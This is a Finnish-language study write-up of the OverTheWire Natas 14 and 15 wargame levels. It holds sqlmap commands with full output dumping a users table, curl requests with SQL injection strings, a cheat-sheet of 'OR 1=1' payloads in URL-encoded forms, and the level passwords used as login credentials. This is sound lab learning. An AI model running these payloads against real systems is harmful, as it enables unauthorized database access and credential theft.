Eli tästä ylemmästä tuloksesta ainakin kertoi havaintojen ajosta:
- injektiopiste: POST parametri username on haavoittuva SQL-injektiolle
- Injketiotyyppi:
- tietokanta versio on: `MySQL >= 5.0.12`
- palvelin versio: Apache 2.4.58 (Linux Ubuntu)
- tallennettu tiedosto sijaitsee: `~/.local/share/sqlmap/output/natas14.natas.labs.overthewire.org/`


**Seuraavaksi** halutaan se SQL injektio haavoittuvuutta ja alttiimista, että automaattisesti poimii datoja ulos sieltä ja ja jos injektio onnistuu

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas14.natas.labs.overthewire.org/index.php" \
  --auth-type Basic \
  --auth-cred "natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" \
  --data "username=admin&password=admin" \
  --batch \
  --level=5 --risk=3
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.5#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:24:53 /2025-05-17/

[12:24:53] [INFO] resuming back-end DBMS 'mysql' 
[12:24:53] [INFO] testing connection to the target URL
[12:24:53] [WARNING] potential permission problems detected ('Access denied')
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=admin" OR NOT 9188=9188#&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin" AND (SELECT 2142 FROM (SELECT(SLEEP(5)))vnvd)-- Cgqh&password=admin
---
[12:24:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[12:24:53] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas14.natas.labs.overthewire.org'
[12:24:53] [WARNING] your sqlmap version is outdated

[*] ending @ 12:24:53 /2025-05-17/

```

Tässä ylemmässä tuloksena ainakin liittyen `access denied`:
- Viesti koskien se ei tarkoita virhettä sqlmappissa - vaan soveluksessa eli natas omassa vastauksessa, joka yrittää estää näkyvyyttä. Koska sqlmpa sai injektiosta irti `boolean` ja `time-based blind` vastauksia, ja ohittanut sen näkyvyyttä. 


**Seuraavaksi**:
Tässä suoritin jotakin muuta, mutta meni kauan niin keskeytin, mutta ainakin yksi niistä sqlmap toiminnasta ainakin ja muutamia huomoittavia on:

Tässä vaiheessa olet onnistuneesti:
✅ Hyökännyt SQL-injektiolla username-kenttään
✅ Löytänyt tietokannan nimen (natas14)
✅ Listannut taulut
✅ Löytänyt taulun users ja sen sarakkeet (username, password)
✅ Dumpannut kaksi käyttäjää ja niiden salasanat (bob ja charlie)

Muutamia huomioon mm.
- username injektio    OR 101 -tyyline blind SQL injektio onnistui
- MySQL versio löytyi >= 5.0.12 mahdollistaa mm. `SLEEP()`
- users - taulu löytyi - joka on tietokannassa vain yksi taulu users
- dumpatut tiedot - pari käyttäjätunnusta ja niiden salasanat
- kesti kauan - tämä kesti tosiaan aika kauan joka on normi `time-based blind` - hyökkäys


```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas14.natas.labs.overthewire.org/index.php" \
  --auth-type Basic \
  --auth-cred "natas14:z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ" \
  --data "username=natas15&password=test" \
  --batch \
  --level=5 --risk=3 --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.5#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:32:20 /2025-05-17/

[12:32:21] [INFO] resuming back-end DBMS 'mysql' 
[12:32:21] [INFO] testing connection to the target URL
[12:32:21] [WARNING] potential permission problems detected ('Access denied')
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: username=admin" OR NOT 9188=9188#&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin" AND (SELECT 2142 FROM (SELECT(SLEEP(5)))vnvd)-- Cgqh&password=admin
---
[12:32:21] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12
[12:32:21] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[12:32:21] [INFO] fetching current database
[12:32:21] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[12:32:21] [INFO] retrieved: 
[12:32:21] [WARNING] time-based comparison requires larger statistical model, please wait........................... (done)         
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[12:32:28] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[12:32:38] [INFO] adjusting time delay to 1 second due to good response times
natas14
[12:32:58] [INFO] fetching tables for database: 'natas14'
[12:32:58] [INFO] fetching number of tables for database 'natas14'
[12:32:58] [INFO] retrieved: 
[12:32:58] [INFO] retrieved: 1
[12:33:00] [INFO] retrieved: 
[12:33:00] [INFO] retrieved: u
[12:33:09] [ERROR] invalid character detected. retrying..
[12:33:09] [WARNING] increasing time delay to 2 seconds
sers
[12:33:33] [INFO] fetching columns for table 'users' in database 'natas14'
[12:33:33] [INFO] retrieved: 
[12:33:33] [INFO] retrieved: 2
[12:33:38] [INFO] retrieved: 
[12:33:38] [INFO] retrieved: username
[12:34:27] [INFO] retrieved: 
[12:34:27] [INFO] retrieved: 
[12:34:41] [ERROR] invalid character detected. retrying..
[12:34:41] [WARNING] increasing time delay to 3 seconds
[12:34:55] [ERROR] invalid character detected. retrying..
[12:34:55] [WARNING] increasing time delay to 4 seconds
password
[12:36:47] [INFO] fetching entries for table 'users' in database 'natas14'
[12:36:47] [INFO] fetching number of entries for table 'users' in database 'natas14'
[12:36:47] [INFO] retrieved: 
[12:36:47] [INFO] retrieved: 5
[12:36:56] [INFO] retrieved: 
[12:36:56] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
Dl2FB9O9op
[12:39:31] [INFO] retrieved: 
[12:39:31] [INFO] retrieved: bob
[12:40:09] [INFO] retrieved: 
[12:40:09] [INFO] retrieved: ikWGV9zc1i
[12:42:41] [INFO] retrieved: 
[12:42:41] [INFO] retrieved: ch
[12:43:19] [ERROR] invalid character detected. retrying..
[12:43:19] [WARNING] increasing time delay to 5 seconds
arlie
[12:44:22] [INFO] retrieved: 
[12:44:22] [INFO] retrieved: 
[12:44:42] [ERROR] invalid character detected. retrying..
[12:44:42] [WARNING] increasing time delay to 6 seconds
keep up the good^C
[12:51:08] [WARNING] Ctrl+C detected in dumping phase                                                                               
Database: natas14
Table: users
[2 entries]
+------------+----------+
| password   | username |
+------------+----------+
| Dl2FB9O9op | bob      |
| ikWGV9zc1i | charlie  |
+------------+----------+

[12:51:08] [INFO] table 'natas14.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/natas14.natas.labs.overthewire.org/dump/natas14/users.csv'                                                                                                              
[12:51:08] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas14.natas.labs.overthewire.org'
[12:51:08] [WARNING] your sqlmap version is outdated

[*] ending @ 12:51:08 /2025-05-17/
```


---

# SQL injektio mini huomio - START HERE 

pieni huomiona tämä osuus - tämä taulukko toimii kuin pien lunttilappuna, usein kirjauttumisessa voi olla monen tyyppistä et pelkä käyttäjäjänimeä. Tätä taulukkon mukaista prosessia kutsutaan **SQL - injektion manipulointia, ei salasanojen arvaamista**  kuitenkin yritetään **muokata taustalla olevaa SQL-kyselyä esim. just syöttämällä noita erikoismerkkiä `"` tai `'` tai yhdistelmiä just `"' OR 1=1 --`. Tästä just ideana **testata onko oleva tietokanta haavoittuvainen syötteiden käsittylssä**. 

Kun palvelin EI käsittele syötettä turvallisesti, hyökkääjä voi ohittaa autentikoinnin tai käskeä tietokantaa tekemään jotain muuta (kuten palauttamaan kaikki käyttäjät).


| Kenttä     | Syöte / URL                      | Arvo (selkokielisenä)                 | Ero ja merkitys                                                                 |
|------------|----------------------------------|----------------------------------------|----------------------------------------------------------------------------------|
| username   | Lomakesyöte                      | `admin"' OR 1=1 --`                    | Täysin identtinen injektio URL- ja lomakeversioissa.                            |
| password   | Lomakesyöte                      | `password' OR 1=1 --"`                 | Alkuosa (`password`) eroaa, mutta injektio toimii jos SQL ei hajoa.             |
| username   | URL (enkoodattu)                 | `admin"' OR 1=1 --`                    | Sama injektio kuin lomakkeessa, mutta URL-muodossa enkoodattuna.                |
| password   | URL (enkoodattu)                 | `admin' OR 1=1 --"`                    | Eroaa lomakeversiosta alkuosan (`admin`) takia – voi vaikuttaa SQL-syntaksiin.  |
| **KOKO URL** | `/index.php?...`                 | `username=admin"' OR 1=1 --`<br>`password=admin' OR 1=1 --"` | Käytännössä toimii kuten lomakesyöte, mutta erona on alkuarvon ero `password`-kentässä. |
| username   | `username=admin%22%20OR%201%3D1%20--` | `admin" OR 1=1 --`                    | URL-enkoodattu versio: `%22` vastaa `"` ja `%20` vastaa välilyöntiä |


SQL injektiossa idea on just nämä erikoismerkit kuten `"` , `'` , `"'`, `+` ja `--`. Huomoina toi keskimmäinen just pätee yhdistettynä, ja niiden yhdistelmeitä testeissä ja se pätee sekä lomakkeessa että URL:issa. 

- Tässä tapauksessa **"** (`%22`) sulkee `username`-kentän alkuperäisen arvon ja sen jälkeen **injektio toimii**: `OR 1=1 --` on SQL-lauseke, joka on tosi ja estää salasanan tarkistuksen.


## Harjoitusta kohti mestariksi

Alkuum meneekin `' OR 1=1 --` - koska se on perusideana mikä lähtee harjoittelusta. Sitä näkee nopeasti, reagoi järjestelmän jollakin tavalla, että onnistuuko kirjautuminen vai tuleeko virhettä, jäätyykö pyyntö ja tms. Tämä periaatteessa toimii kuin ensimmäinen _pingi_ eli testaa onko järjestelmässä injektiota. 

Periaatteessa tämä `' OR 1=1 --` - voi toimia pienenä lunttilappuna ja pikaisella koodina.

Jos taso menee vaikeammaksi niin lomake kenttään käytä suodatusta  `'` - merkkiä 

Muita vaiheita tulee mukaan:
- Blind SQLi (testataan vaikka `AND 1=1` vs. `AND 1=2` ja katsotaan käyttäytyminen)
- Time-based SQLi (esim. `SLEEP(5)`-pohjaiset injektiot)
- Automatisointi (sqlmap) kun payloadit monimutkaistuvat

## SQL injektio kali linux:issa
Tämä pätee `curl`- komento POST-pyyntö SQL-injektiolla:

`curl "http://target.site/login?username=admin' OR 1=1 --&password=whatever"`

```
curl -X POST http://target.site/login \
  -d "username=admin' OR 1=1 --&password=whatever"
```

Tämä on alempi komennon kuvausta tarkennuksena: 
-X POST: tehdään POST-pyyntö
-d: data, joka normaalisti tulisi lomakkeesta:
--compressed: pakkaustuki, joskus tarpeen Overthewire-labroissa
```
curl -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 \
  -X POST "http://natas14.natas.labs.overthewire.org/" \
  -d "username=admin\" OR 1=1 --&password=irrelevant" \
  --compressed
```


**Toinen vinkki**: tarkalleen mitä kysely tekee: 
```
curl -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 \
  -X POST "http://natas14.natas.labs.overthewire.org/?debug=1" \
  -d "username=admin\" OR 1=1 --&password=irrelevant"
```


**Sqlmap** - joka antaa automaattisesti erilaisia sql injektio, et tunnistaa classic/blind/time-based ja union pohjaisia, jne.
`sqlmap -u "http://target.site/login?username=admin&password=test" --batch --risk=3 --level=5`

## Selaimen SQL injektio

` " ` - kokeilin toista erikoismerkkiä, mutta ainakin toimii ja antoi seuraavan vihjeensä, sekä muutama testi ainakin näyttävän toimii.

```
Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, bool given in /var/www/natas/natas14/index.php on line 24
```

Kun käytät SQL-injektiota URLin kautta, sinun täytyy URL-enkoodata erikoismerkit, jotta ne menevät palvelimelle oikein — muuten selain tai palvelin tulkkaa ne väärin tai estää pyynnön kokonaan.

`' OR 1=1 --`- on enkoodattuna muodossa `%27%20OR%201%3D1%20--`


🔎 Miksi enkoodata?
Web-palvelimet ja selaimet odottavat, että URL:ssa on vain tietyt sallitut merkit. Jos laitat esimerkiksi ' (heittomerkki) suoraan URLiin, se voi rikkoa pyynnön tai aiheuttaa virheen jo ennen kuin se ehtii tietokantaan asti.

esim. `curl "http://example.com/login.php?username=admin%27%20OR%201%3D1%20--&password=whatever"`

Esim. tässä Natas 14 harjoituksessa: `http://natas14.natas.labs.overthewire.org/index.php?debug=1&&username=admin&&password=admin%22%20OR%201=1%E2%80%93%20&&password=admin`

## SQLMAP komento

tehokkuus ja laajuus säädetään sqlmapissa `--level` ja `--risk` -asetuksilla. Ne vaikuttavat siihen, kuinka aggressiivisesti ja syvällisesti sqlmap hyökkää.

Asetus	Merkitys
--level=1-5	- Kuinka laajasti testataan parametreja (1 = nopea, 5 = kaikki mahdolliset)
--risk=1-3	- Kuinka "riskialttiita" hyökkäyksiä käytetään (1 = turvallisia, 3 = voivat rikkoa)

**ESIM**:
SQLMAP komento POST-pyyntö esim:
```
sqlmap -u "http://natas14.natas.labs.overthewire.org/" \
  --auth-type Basic --auth-cred "natas14:YOURPASSWORD" \
  --data="username=admin&password=admin" \
  --level=5 --risk=3 --batch
```

🧠 Selitykset:
-u: URL-osoite (ei tarvitse query-parametreja tässä, koska käytetään --data)

--auth-type Basic: HTTP Basic Auth

--auth-cred: käyttäjä:salasana

--data: POST-data, jota lomake lähettää

--level=5: testaa kaikki kentät ja mutaatiot

--risk=3: kokeilee myös vaarallisempia hyökkäyksiä (esim. viiveet, tiedonhaku)

--batch: automaattivastaukset (ei kysy interaktiivisesti)


## SQL injektio koskien MYSQL komentoa

jos aikoo käyttää MySQL omaa koemntoa, mutta se ei oikeasti toimi Linux terminaalissa, koska se on eri ja sitä joutuu käyttää **PHPMYADMIN** ohjelman alla. Linux terminaalissa voi runnata MySQL komentoa eli `SELECT * FROM USERS` - jotakin linux terminaalin alta, mutta käyttää paikallisen esim. `php -r` - tai tiedostoa tai muuta menetelmänsä mm. echo (eli toista jotakin) niin se voi yhdistää yhteyden MySQL:ään. 

echo komento esim. `echo "SELECT * FROM users;" | mysql -u user -p database_name`- ja huomiona, tämä ottaa vain yhteyttä omaan tietokantaansa ei muuta, ellei ole yhdistynyt muihin tietokantoihin ohjelmiinsa. 

## 🧩 miniyhteenveto natas 14

Tästä kuitenkin SQL injektio hyökkäyksestä on monta tapaa joko:
1. **Manuaalinen**  
   - Esimerkiksi syötetään suoraan kirjautumislomakkeeseen:  
     `" OR 1=1 --`  
   - Tämä toimii erityisesti, jos syötteitä ei suodateta kunnolla.

2. **sqlmap**  
   - Automaattinen työkalu, joka testaa ja hyödyntää SQL-injektioita.
   - Etsii mm. haavoittuvuudet, taulut, tietokannan sisällön (`--dump`), ja tietokantatyypin.

3. **Muut työkalut**  
   - Esimerkiksi `Burp Suite`, `OWASP ZAP`, käsintehdyt skriptit tai `curl`-komennot HTTP-pyyntöihin.


- SQL-injektioiden tehokkuus riippuu kohteesta ja sen suojaustasosta.
- Esimerkiksi `time-based blind injection` voi olla hidas, mutta toimii tilanteissa, joissa muuta palautetta ei tule.
- Harjoittelussa on hyödyllistä käyttää sekä manuaalisia että automaattisia menetelmiä.
- Testaaminen onnistuu mm.:
  - Selaimen lomakkeella
  - URL-parametrin kautta (esim. `?username=admin'%20OR%201=1--`)
  - Komentoriviltä (`sqlmap`, `curl` jne.)

monipuolinen testaus ja työkalujen tuntemus auttavat ymmärtämään todellisia hyökkäysmenetelmiä sekä suojausratkaisuja.

## Level 14 - 4 linkkejä ja ohjeita; 

https://nils-maeurer.de/post/overthewire-natas14-15/
https://www.abatchy.com/2016/11/natas-level-14-and-15

https://www.youtube.com/watch?v=cCQFblftpr8


https://learnhacking.io/overthewire-natas-level-14-walkthrough/

https://medium.com/@enesaladag/overthewires-natas14-b83d28872ffe

---

# Natas 15 - START HERE

natas15 is SdqIqBsFcz3yotlNYErZSZwblkm0lrvx


Tämä näyttää vähä samankaltaiselta kuin level 14:ssa, mutta vaikeampi taso. Ainakin **index-source** välilehdessä lukee siellä on luotu tietokannan yksittäinen sarakke/taulukko mikälie _käyttäjät_ että on _username:password_ ja tässä on koodattuna ainaki perus PHP-koodikielellä.




Tässä skriptissä ainakin näkyvinsä, jos on olemassa oleva _username_ niin se kertoo tämä on jo varattu ja jne. sekä ainakin avainsanoja haavoittuvuudesta kiinnostaa kuten `debug` , `username` ainakin, että tarkistaa onko sellainen käyttäjänimi jo olemassa entuudestaan.

Voi olla tähän SQLmap komentoa/työkalua ei suoraan auta, koska tämä on tehokkaampi tehdä **manuaaliselal hyökkäyksellä** , esim. kirjain kerrallaan testaus: `natas16" AND SUBSTRING(password,1,1) = "a"` jne.




Pientä kokeilua erissä muodossa mm:
-  Kokeilin esim. yksi (username) niin tarkistaa "check existence" - no ainakin kokeilin "_admin123_" - ja tuloksena "This user doesn't exist" 
- toinen testi kokeilin syöttää username kentään "bob" - ja ainakin tämä tulosti _This user exists._ eli vain tietyt nimet
- kolmanetena syötin **admin" OR 1=1 --"** - sehän antoi _Error in query._ tuloksensa. 


Tässä tuloksena ainakin se tarkistaa sen tietokannan mukaisen datan että täsmentyykö se nimi, mitä käyttäjä syöttää niin täsmentyykö sinne taulukkoon. Toi "bob" nimestä, jonka toistettu on tämän tason nimetyt tietokannan taulukkon nimet ja vain rajoitetut nimet - sellaiset helpot mm. alice , bob , charlie.

Myös pikainen testauksena URL:issa, että ainakin antoi jonkinlaisen tuloksensa:



---

## Natas 15 - 1 - Kali linux prosessi - START HERE

Perus selvittämistä ja jne, että kertoo ainakin SQL-injektio steppi ei toimi ja sama idea URL:lin perään hakusana, joten päädyttiin käyttää SQLmap:iä. 

Kokeillaan aikaisempia , että antaako niistä ekana mitään vastausta
```
┌──(kali㉿kali)-[~]
└─$ curl -u natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx "http://natas15.natas.labs.overthewire.org"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Tämä ei antanut kauheasti mitään tuloksia ainakaan lukien, mutta paitsi jotakin testeistä on infoja mistä on kyse tässä level:issä:
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php" \
  --auth-type Basic \
  --auth-cred "natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx" \
  --data "username=admin" \               
  --batch
        ___
       __H__                                                                                                                   
 ___ ___["]_____ ___ ___  {1.8.5#stable}                                                                                       
|_ -| . [']     | .'| . |                                                                                                      
|___|_  [,]_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:15:04 /2025-05-18/

[10:15:04] [INFO] testing connection to the target URL
[10:15:06] [INFO] testing if the target URL content is stable
[10:15:07] [INFO] target URL content is stable
[10:15:07] [INFO] testing if POST parameter 'username' is dynamic
[10:15:07] [WARNING] POST parameter 'username' does not appear to be dynamic
[10:15:08] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[10:15:08] [INFO] testing for SQL injection on POST parameter 'username'
[10:15:08] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:15:15] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:15:16] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:15:16] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[10:15:16] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[10:15:17] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[10:15:18] [INFO] testing 'Generic inline queries'
[10:15:18] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[10:15:18] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)                                                                                        
[10:15:18] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[10:15:19] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[10:15:19] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:15:20] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[10:15:20] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[10:15:21] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n] Y
[10:15:21] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[10:15:21] [WARNING] POST parameter 'username' does not seem to be injectable
[10:15:21] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[10:15:21] [WARNING] your sqlmap version is outdated

[*] ending @ 10:15:21 /2025-05-18/
```

Tämä toisti lisäparametrejä jos halutaisi syvempää testausta, ainakin koskien rajoittaa testin `--technique=B` **Boolean-based blind SQLi:hin** ja `--batch` hyväksyy oletusvastauksia automaattisesti. Tuossa toistui paljon riviä, että skippasin osan. Sekä SQLMap teki perusteellisen sarjan testejä tarkistaakseen, onko `username`-parametri haavoittuvainen blind SQL injectionille eri tietokantaympäristöissä, mutta ei löytänyt haavoittuvuutta, koska se ei saanut tunnistettua onnistuneen injektion vastaussisältöä ilman lisäohjausta käyttäjältä.

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?username=test" \
--auth-type Basic \
--auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--level 5 --risk 3 --batch --technique=B
        ___
       __H__                                                                                                                   
 ___ ___[(]_____ ___ ___  {1.8.5#stable}                                                                                       
|_ -| . ["]     | .'| . |                                                                                                      
|___|_  [.]_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:40:44 /2025-05-18/
....


[10:40:46] [WARNING] heuristic (basic) test shows that GET parameter 'username' might not be injectable
[10:40:46] [INFO] testing for SQL injection on GET parameter 'username'
[10:40:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:40:51] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[10:40:55] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[10:41:01] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[10:41:04] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[10:41:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[10:41:07] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (comment)'
[10:41:08] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - comment)'
[10:41:09] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[10:41:16] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[10:41:18] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[10:41:20] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (Microsoft Access comment)'
[10:41:24] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Microsoft Access comment)'
[10:41:26] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[10:41:30] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[10:41:43] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[10:41:59] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[10:42:05] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[10:42:09] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:42:14] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:42:17] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[10:42:23] [INFO] testing 'PostgreSQL OR boolean-based blind - WHERE or HAVING clause (CAST)'
[10:42:26] [INFO] testing 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[10:42:30] [INFO] testing 'Oracle OR boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[10:42:35] [INFO] testing 'SQLite AND boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)'
[10:42:39] [INFO] testing 'SQLite OR boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)'
[10:42:42] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:42:42] [INFO] testing 'MySQL boolean-based blind - Parameter replace (MAKE_SET)'
....

[10:42:48] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[10:42:48] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY, GROUP BY clause'
[10:42:48] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
[10:42:48] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (GENERATE_SERIES)'
[10:42:48] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - ORDER BY clause'
[10:42:48] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - ORDER BY clause (original value)'
[10:42:49] [INFO] testing 'Oracle boolean-based blind - ORDER BY, GROUP BY clause'
[10:42:49] [INFO] testing 'Oracle boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[10:42:49] [INFO] testing 'Microsoft Access boolean-based blind - ORDER BY, GROUP BY clause'
[10:42:49] [INFO] testing 'Microsoft Access boolean-based blind - ORDER BY, GROUP BY clause (original value)'
.....
[10:51:04] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - Stacked queries'
[10:51:05] [INFO] testing 'Oracle boolean-based blind - Stacked queries'
[10:51:06] [INFO] testing 'Microsoft Access boolean-based blind - Stacked queries'
[10:51:07] [INFO] testing 'SAP MaxDB boolean-based blind - Stacked queries'
[10:51:10] [WARNING] parameter 'Host' does not seem to be injectable
[10:51:10] [CRITICAL] all tested parameters do not appear to be injectable. Rerun without providing the option '--technique'. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[10:51:10] [WARNING] your sqlmap version is outdated

[*] ending @ 10:51:10 /2025-05-18/

```

Tämäki on pitkä tulos et menee jopa muutama min, sekä vaikuttaa level ja riskiinsä
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php" \
  --auth-type Basic \
  --auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
  --batch \
  --level=5 --risk=3 --dump
```


Tässä viimeisessä (alempi tulos) kohdassa ajattelin keskeyttää, että laittaa "e" niin ainakin kertoi jotakin väliaikaista tulosta. Ainakin SQL injektiosta löysi POST parametrin koskeva haavoittuvuutta **Boolean-based** ja **time-based blind** injektiolle just tämä osuus: `username=natas16" AND 1660=1660--`

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type Basic \
--string "This user exists" \
--auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data "username=natas16" \
--level=5 --risk=3
        ___
       __H__                                                                                                                   
 ___ ___[(]_____ ___ ___  {1.8.5#stable}                                                                                       
